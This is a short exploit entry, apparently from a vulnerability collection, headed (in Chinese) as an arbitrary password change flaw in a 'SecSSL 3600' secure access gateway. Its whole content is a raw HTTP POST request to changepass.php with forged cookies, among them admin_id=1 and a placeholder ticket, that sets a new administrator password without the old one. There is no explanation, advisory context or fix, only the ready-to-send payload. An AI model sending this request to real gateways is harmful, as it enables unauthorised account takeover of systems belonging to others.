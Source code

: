 
## 某神 SecSSL 3600安全接入网关系统 任意密码修改漏洞
```
POST /changepass.php?type=2 

Cookie: admin_id=1; gw_user_ticket=ffffffffffffffffffffffffffffffff; last_step_param={"this_name":"test","subAuthId":"1"}
old_pass=&password=Test123!@&repassword=Test123!@

```

